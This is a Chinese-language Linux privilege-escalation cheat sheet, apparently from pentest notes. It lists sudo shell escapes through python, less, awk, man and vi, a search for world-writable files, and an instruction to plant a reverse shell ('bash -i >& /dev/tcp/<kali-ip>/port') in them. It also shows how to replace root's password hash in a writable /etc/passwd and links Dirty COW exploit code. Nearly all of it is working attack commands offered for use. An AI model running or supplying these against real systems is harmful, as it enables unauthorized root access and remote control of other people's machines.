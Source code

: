 - python:
    ```bash
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```

- less
    ```bash
    sudo less /etc/hosts
    v
    :shell
    ```

- awk
    ```bash
    sudo awk 'BEGIN {system("/bin/bash")}'
    ```

- man
    ```bash
    sudo man man
    !/bin/bash
    ```

- vi
    ```bash
    sudo vi
    :!bash
    ```

**找带 suid 的文件**
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```
筛选出其中所有人有 rwx 权限的文件,添加如下一句话:
```bash
bash -i >& /dev/tcp/<kali-ip>/port 0>&1
```

**若 /etc/passwd 文件可修改**
```bash
openssl passwd -1   # 输入你想改成的密码,用得到的 hash 去替换 root 行的 x
python -c 'import pty; pty.spawn("/bin/bash")'
```
然后 su root,输入上一步改的密码

**CVE-2016-5195 脏牛 Dirty COW**
- 影响范围
- Linux 内核>=2.6.22(2007年发行),直到2016年10月18日修复

- 文章
- [[翻译]从内核角度分析 Dirty Cow 原理](https://bbs.pediy.com/thread-218797.htm)

- POC | Payload | exp
- [scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)
- [dirtycow/dirtycow.github.io](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
- [gbonacini/CVE-2016-5195](https://github.com/gbonacini/CVE-2016-5195)
- https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
